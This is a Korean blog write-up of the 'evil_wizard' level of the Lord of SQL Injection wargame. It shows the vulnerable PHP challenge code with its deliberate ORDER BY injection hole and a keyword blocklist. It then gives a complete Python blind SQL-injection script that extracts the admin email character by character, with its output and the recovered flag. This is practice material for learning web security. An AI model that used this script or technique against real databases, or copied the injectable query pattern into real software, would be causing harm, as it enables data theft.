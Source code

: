 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - evil_wizard 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`evil_wizard` 문제인데, 이 전에 `hell_fire` 문제랑 똑같이 생겼다.  

주석을 보면 `same with hell_fire? really?`라고 적혀있는데, 뭐가 다른건지 모르겠다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

코드를 보면 이 전 문제인 `hell_fire`와 똑같다.  

그런데 주석에 `same with hell_fire? really?`가 있는 것을 보니 뭔가 다른 부분이 있는 것 같았다.  

그래서 `?order=id`를 입력 해 무슨 값이 들어있나 확인 해 보았다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |50|
|rubiya|   |rubiya805@gmail.com|   |100|

지난 문제에서는 `admin`의 `score`가 `200`이었어서, `order by` 뒤에 `id`를 넣을때와 `score`를 넣을 때가 결과가 달랐다.  

그런데 이번에는 무슨 값을 넣어도 같은 결과가 나온다.  

그래서 이 전 문제에서 사용했던 방법을 그대로 테스트 해 보았는데 너무 잘된다. ㅋㅋㅋ  

뭔가... 이 전 문제는 내가 처음에 생각했던 방법대로 풀 수 있었던 문제인 것 같은데, 뭔가 문제가 망가진 것 같기도 하다.  

아니면 내가 의도와 다르게 풀었거나...  

어쨌든 그래서 그냥 이 전 문제 코드 그대로 가져다 풀었다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

패스워드 길이는 이 전 문제랑 살짝 달랐다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  30
[+] Find password
[+] Found 1 : a
[+] Found 2 : aa
[+] Found 3 : aas
[+] Found 4 : aasu
[+] Found 5 : aasup
[+] Found 6 : aasup3
[+] Found 7 : aasup3r
[+] Found 8 : aasup3r_
[+] Found 9 : aasup3r_s
[+] Found 10 : aasup3r_se
[+] Found 11 : aasup3r_sec
[+] Found 12 : aasup3r_secu
[+] Found 13 : aasup3r_secur
[+] Found 14 : aasup3r_secure
[+] Found 15 : aasup3r_secure_
[+] Found 16 : aasup3r_secure_e
[+] Found 17 : aasup3r_secure_em
[+] Found 18 : aasup3r_secure_ema
[+] Found 19 : aasup3r_secure_emai
[+] Found 20 : aasup3r_secure_email
[+] Found 21 : aasup3r_secure_email@
[+] Found 22 : aasup3r_secure_email@e
[+] Found 23 : aasup3r_secure_email@em
[+] Found 24 : aasup3r_secure_email@ema
[+] Found 25 : aasup3r_secure_email@emai
[+] Found 26 : aasup3r_secure_email@emai1
[+] Found 27 : aasup3r_secure_email@emai1.
[+] Found 28 : aasup3r_secure_email@emai1.c
[+] Found 29 : aasup3r_secure_email@emai1.co
[+] Found 30 : aasup3r_secure_email@emai1.com
[+] Found password :  aasup3r_secure_email@emai1.com
[+] End
```

결과로 나온 이메일 값을 아래와 같이 넘겨주었다.  

```
?email=aasup3r_secure_email@emai1.com
```

힣 코드 한개로 2문제 풀었다! 개꿀!  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

EVIL_WIZARD Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

`EVIL_WIZARD Clear!!`